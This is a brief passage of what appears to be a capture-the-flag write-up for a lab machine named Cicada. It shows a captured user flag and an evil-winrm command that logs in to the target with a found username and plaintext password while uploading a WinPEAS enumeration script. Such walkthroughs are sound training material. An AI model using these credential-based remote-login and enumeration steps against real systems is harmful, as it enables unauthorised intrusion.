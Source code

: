 ![](attachment/eb966126c503e2aac24c0c3b2378726a.png)

```shell
userflag:b1a85553011c051272b8b9bbf05a7258
```

Use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to log in the system

```shell
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -s /path/to/local/Winpeas.exe
```

![](attachment/9795d07b42e23b355bb6731828e14690.png)
